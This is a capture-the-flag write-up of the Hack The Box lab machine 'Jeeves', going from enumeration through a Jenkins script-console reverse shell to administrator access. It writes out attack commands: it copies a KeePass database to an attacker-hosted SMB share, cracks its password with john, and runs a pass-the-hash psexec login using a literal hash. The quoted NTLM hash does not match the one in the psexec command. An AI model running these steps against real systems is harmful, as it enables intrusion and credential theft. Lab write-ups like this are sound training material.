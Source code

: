 ```yaml
---
title: Jeeves
date: 2023-12-20 09:45:47 +07:00
modified: 2023-12-20 09:45:47 +07:00
tags: [ Jeeves, Jenkins, enum4linux-ng, Bruteforce, CTF, datastream, smb, FileTransfer, PassTheHash, Keepass, kdbx, john, hashcat, CME, Windows, OSCP, Writeup]
# description: Jeeves is not overly complicated, however, it focuses on some interesting techniques and provides a great learning experience. As the use of alternate data streams is not very common, some users may have a hard time locating the correct escalation path.
cover: https://photos.squarezero.dev/file/abir-images/Jeeves/logo.png
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



<!-- <img src="https://photos.squarezero.dev/file/abir-images/Jeeves/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Jeeves</font>

​		11<sup>th</sup> November 2017

​		Machine Author(s): [mrb3n](https://app.hackthebox.com/users/2984)

​		

### Description: -->

Jeeves is not overly complicated, however, it focuses on some interesting techniques and provides a great learning experience. As the use of alternate data streams is not very common, some users may have a hard time locating the correct escalation path.  

### Difficulty:

`Medium`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.10.63`

`nmap -sC -sV -p80,135,445,50000 10.10.10.63 -oA ./nmap/jeeves -Pn`

|Ports|Service
|80| msrpc Microsoft IIS httpd 10.0
|135| msrpc Microsoft Windows RPC
|445| Windows Server 2016 Standard 14393
|50000| Jetty 9.4.z-SNAPSHOT


![](https://photos.squarezero.dev/file/abir-images/Jeeves/1.png)

First I checked SMB server and there was no listing of anonymous sign-in.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/2.png)

I also ran [Enum4linux-NG](https://www.kali.org/tools/enum4linux-ng/) to make sure and it also enumarate RPC for me.



`enum4linux-ng 10.10.10.63 -A -C`


![](https://photos.squarezero.dev/file/abir-images/Jeeves/3.png)

![](https://photos.squarezero.dev/file/abir-images/Jeeves/4.png)

Next, I visited port 80. It shows AskJeeves search but if something is searched on the toolbar it redirects to `/error.html?` . 

![](https://photos.squarezero.dev/file/abir-images/Jeeves/5.png)

![](https://photos.squarezero.dev/file/abir-images/Jeeves/6.png)

You can't click or select on the screen. After seeing the source code we can confirm it's just an image [jeeves.PNG]().

![](https://photos.squarezero.dev/file/abir-images/Jeeves/7.png)

Next, I visited port 50000. It gives a 404 error. 

![](https://photos.squarezero.dev/file/abir-images/Jeeves/8.png)



# Foothold

I did a [Dirsearch]() on both ports 80 & 500000 and found `/askjeeves` .

```bash
dirsearch -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 20 -f -e php,txt,html,aspx
```

![](https://photos.squarezero.dev/file/abir-images/Jeeves/9.png)

After visiting the directory we are met with the Jenkins dashboard.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/10.png)

We can go to `/askjeeves/script` and find the script console. We can get a reverse shell using the following script.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/11.png)

I set up Netcat listening on my local machine and after hitting run we can get a reverse shell.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/12.png)

I got the user.txt

![](https://photos.squarezero.dev/file/abir-images/Jeeves/13.png)

# Privilege Escalation

After looking for a bit I found `CEH.kdbx` file. This is the [Keepass](https://keepass.info/) db file.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/14.png)

I transferred the file using `impacket-smbserver`. 

Attacker Machine
`sudo impacket-smbserver share -smb2support /tmp/ -user test -password test`

Target Machine
`copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.14.22\share\`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/15.png)

I tried to open the file with [KeePassXC]() but it was password locked.


I extracted the password hash of the file and then brute-forced it with John().



`keepass2john CEH.kdbx >> hash.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Password → `moonshine1`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/16.png)

I used the credential to open the file and found an NTLM hash.

NTLM → `afbc5bd4b615a60648cec41c6ac92530`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/17.png)

I used [PSEXEC]() to do a [PassTheHash]() attack to get into the admin user.

`psexec.py administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/18.png)

When I went to get the flag I saw a text to find the flag elsewhere.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/19.png)

I checked for hidden files and found `hm.txt:root.txt:$DATA`.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/20.png)

This is an alternative data stream. I the flag using Get-Content .

`powershell (Get-Content hm.txt -Stream root.txt).substring(0,32)`

or `more < hm.txt:root.txt`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/21.png)